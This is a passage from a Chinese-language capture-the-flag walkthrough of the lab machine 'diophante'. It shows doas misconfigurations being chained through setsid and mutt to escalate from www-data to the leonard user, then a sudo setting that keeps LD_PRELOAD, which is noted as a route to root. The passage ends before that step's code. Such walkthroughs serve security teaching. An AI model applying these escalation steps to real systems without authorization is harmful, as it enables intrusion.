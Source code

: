 ```bash
lder/includes$

```
## 4. 提权
### 4.1. 提权leonard用户
检测发现有 doas 的SUID权限
我们看看doas的配置文件
```bash
(remote) www-data@diophante:/home/leonard$ cat /etc/doas.conf
permit nopass www-data as sabine cmd /usr/bin/setsid
permit nopass sabine as leonard cmd /usr/bin/mutt
```

允许我们以 `www-data` 用户 用 `sabine` 用户的权限执行 `/usr/bin/setsid`
允许我们以 `sabine` 用户 用 `leonard` 用户的权限执行 `/usr/bin/mutt`

先利用 `/usr/bin/setsid` 提取到 `sabine` 用户

```bash
(remote) www-data@diophante:/home/leonard$ doas -u sabine /usr/bin/setsid bash
bash: cannot set terminal process group (-1): Inappropriate ioctl for device
bash: no job control in this shell
sabine@diophante:/home/leonard$ whoami
sabine

```

然后提权到 `leonard` 用户
```bash
sabine@diophante:/home/leonard$ doas -u leonard /usr/bin/mutt
输入！回车
leonard@diophante:~$ whoami
leonard

leonard@diophante:~$ cat user.txt
Thonirburarnlog

```

### 4.2. LD劫持提权root
```bash
leonard@diophante:~$ sudo -l
Matching Defaults entries for leonard on diophante:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, env_keep+=LD_PRELOAD

User leonard may run the following commands on diophante:
    (ALL : ALL) NOPASSWD: /usr/bin/ping

```
发现我们当前用户可以执行/usr/bin/ping
其中 `env_keep+=LD_PRELOAD` 运行我们进行LD劫持
